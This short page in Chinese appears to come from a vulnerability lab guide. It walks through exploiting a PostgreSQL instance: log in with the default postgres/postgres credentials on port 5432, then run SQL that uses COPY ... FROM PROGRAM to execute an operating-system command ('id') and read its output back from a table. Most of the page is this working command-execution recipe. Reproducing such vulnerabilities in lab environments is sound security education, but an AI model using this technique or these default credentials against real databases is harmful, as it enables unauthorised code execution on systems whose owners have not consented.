 <languages  />

<translate>

漏洞利用
--------

</translate>

<translate> 啟動漏洞環境後， 將開啟Postgres默認的5432端口，默認賬號密碼為postgres/postgres， 連接到數據庫。 </translate>

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

<translate> FROM PROGRAM語句將執行命令id並將結果保存在cmd_exec表中。 </translate>